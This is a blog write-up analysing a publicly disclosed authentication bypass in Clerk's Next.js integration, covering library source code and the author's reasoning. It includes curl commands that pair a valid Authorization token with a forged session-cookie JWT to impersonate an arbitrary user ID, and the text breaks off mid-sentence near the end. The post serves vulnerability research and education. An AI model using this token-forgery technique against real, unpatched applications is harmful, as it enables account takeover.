 ```yaml
---
title: "Investigating a major security vulnerability with Clerk's Next.js integration"
description: "Figuring out how a major auth provider fucked up."
date: "2024-01-26"
---
```


On January 12th 2024, Clerk [disclosed a major security vulnerability](https://clerk.com/changelog/2024-01-12) with their Next.js integration. Clerk is an auth provider similar to Auth0 and Firebase Auth, and Next.js is a popular JavaScript framework for building websites with React. The severity was immediately obvious. It allowed malicious actors to act on behalf of other users and had a CVSS score of 9.4 (critical).

But of course they didn't immediately publicly share the exact details of the exploit. It wasn't clear how bad the vulnerability actually was either. So instead of waiting for them to release their promised postmortem, I decided to figure it out myself. I thought it would be a fun challenge since I maintain an auth library as well.

_This was written (but not published) before their [postmortem]() was released._

## Deep dive

Reading through the vulnerability report, the only hint I could find was that it had something to do with the internals used by `auth()` and `getAuth()`. Both of these are server APIs that return the current user.

> The vulnerability impacts applications that use a Next.js backend. Specifically, those that call `auth()` in the App Router, or `getAuth()` in the Pages Router.

After looking through the source code, I found that `auth()` just used `getAuth()` under the hood, which was initialized with `createGetAuth()`. I also looked through the commit history between the patch (`4.29.3`) and the previous release (`4.29.2`), and saw that `createGetAuth()` had been rewritten. So this looked like a good place to start.

```ts
// @clerk/nextjs@4.29.2
// node_modules/@clerk/nextjs/dist/esm/server/getAuth.js
const createGetAuth = ({ debugLoggerName, noAuthStatusMessage }) =>
	withLogger(debugLoggerName, (logger) => {
		return (req, opts) => {
			const authStatus = getAuthKeyFromRequest(req, "AuthStatus");
			// ...
			if (!authStatus) {
				throw new Error(noAuthStatusMessage);
			}
			const options = {
				// ...
			};
			if (authStatus !== AuthStatus.SignedIn) {
				return signedOutAuthObject(options);
			}
			const jwt = parseJwt(req);
			const signedIn = signedInAuthObject(jwt.payload, { ...options, token: jwt.raw.text });
			// ...
			return signedIn;
		};
	});
```

One thing sticked out to me immediately - `parseJwt()`. Here I learned Clerk uses JWT (JSON Web Token) for session tokens.

For those that don't know what a JWT is, it's a token with some JSON data (such as user ID) and a signature embedded into it. The signature allows you to verify the integrity of the JSON data using a secret key. It's become popular as it allows you to validate tokens without a database - though it of course comes with its own downsides.

But `parseJwt()` just decoded the JWT payload. Why was it not validating the signature? That... can't be it right? Surely a multimillion dollar company won't make such a dumb mistake. And of course they didn't. Reading the code again, there was an `if` statement to check the current auth status before it decoded the token. That status was stored in... the request?! Apparently the current auth status among other attributes were either directly stored in the `Request` object or as a custom header.

```ts
// @clerk/nextjs@4.29.2
// node_modules/@clerk/nextjs/dist/esm/server/utils.js
function getAuthKeyFromRequest(req, key) {
	return (
		getCustomAttributeFromRequest(req, constants.Attributes[key]) ||
		getHeader(req, constants.Headers[key]) ||
		(key === "AuthStatus" ? getQueryParam(req, constants.SearchParams.AuthStatus) : void 0)
	);
}
```

So my guess was that they were validating the token somewhere, storing the current status to the request header as `AuthStatus`, and then parsing the token again when it needed to get the user if `AuthStatus` was set to `"signed-in"`.

And that was exactly what was happening because Clerk used Next.js middleware.

Middleware allows you to run code on every request as well as modify the request/response. But unlike middleware in every other framework, in Next.js it runs on the _Edge™_ - basically a CDN that runs your code. This means the server hosting the middleware can be different from rest of your application even for the same request. You can't just pass JS objects, such as the current user, between middleware and route handlers (where `auth()` is used). Instead, you have to add custom headers to the request.

```ts
// @clerk/nextjs@4.29.2
// node_modules/@clerk/nextjs/dist/esm/server/authMiddleware.js
const authMiddleware = (...args) => {
	// ...
	return withLogger("authMiddleware", (logger) => async (_req, evt) => {
		const req = withNormalizedClerkUrl(_req);
		// ...
		// checks if authenticated
		const requestState = await authenticateRequest(req, options);
		// ...
		// set custom headers to be read by `auth()`
		return decorateRequest(req, finalRes, requestState);
	});
};
```

So at first, I thought maybe the vulnerability was that you can just send a `AuthStatus` header with a parsable, but invalid JWT. Maybe you could trick `auth()` into thinking that the token had been already validated and it would parse the token without validating it.

```bash
# Header from valid session token
HEADER="eyJhbGciOiJSUzI1NiIsImNhdCI6IkNBVCIsImtpZCI6IktJRCIsInR5cCI6IkpXVCJ9"
# { "sub": "pwned" }
PAYLOAD="eyJzdWIiOiAicHduZWQifQ"
# Random signature
FAKE_TOKEN="$HEADER.$PAYLOAD.MA"

# X-Clerk-Status: AuthStatus header
curl https://localhost:3000 \
    -H "Cookie: __session=$FAKE_TOKEN;__client_uat=1705888300" \
    -H "User-Agent": "im a browser i swear" \
    -H "X-Clerk-Auth-Status": "signed-in"
```

But again, it wasn't that simple. The middleware will set the `AuthStatus` header even for unauthenticated request so you can't manually override it.

I was stuck for a while but then realized I missed something.

```ts
// @clerk/nextjs@4.29.2
// node_modules/@clerk/nextjs/dist/esm/server/getAuth.js
const parseJwt = (req) => {
	const cookieToken = getCookie(req, constants.Cookies.Session);
	const headerToken = getHeader(req, "authorization")?.replace("Bearer ", "");
	return decodeJwt(cookieToken || headerToken || "");
};
```

`parseJwt()` reads both the `Cookie ` and `Authorization` header at the same time. **_Holy shit._**

What if you send both a valid and fake session token at the same time?

```bash
VALID_TOKEN="<VALID_SESSION>"
# Header from valid session token
HEADER="eyJhbGciOiJSUzI1NiIsImNhdCI6IkNBVCIsImtpZCI6IktJRCIsInR5cCI6IkpXVCJ9"
# { "sub": "pwned" }
PAYLOAD="eyJzdWIiOiAicHduZWQifQ"
# Random signature
FAKE_TOKEN="$HEADER.$PAYLOAD.MA"

# X-Clerk-Status: AuthStatus header
curl http://localhost:3000/user \
    -H "Authorization: $VALID_TOKEN" \
    -H "Cookie: __session=$FAKE_TOKEN"
```

```ts
import { auth } from "@clerk/nextjs";

export async function GET() {
	const { userId } = auth();
	console.log(`User ID: ${userId}`);
	// ...
}
```

What get's logged?

```
User ID: pwned
```

Bingo. `parseJWT()` wrongly assumes _both_ the token in the `Authorization` header and the cookie had been validated, when in reality only _one_ had been validated. This is a big yikes. A very big one. You could essentially impersonate any user with this as long as you know their user ID, which could be public information.

If you'd like to see the exploit in action, I have a [reproduction](https://github.com/pilcrowOnPaper/clerk-nextjs-vulnerability) available on GitHub.

## Closing thoughts

Clerk has fixed this issue by passing the validated token alongside `AuhStatus` in the header, and parsing that token instead. They have also worked with hosting providers to prevent

This vulnerability was only found in the Next.js integration and it's obvious why. Middleware in Next.js isn't comparable to middleware in other frameworks and libraries, and Vercel should stop pretending it is. It's just the wrong place to handle auth.
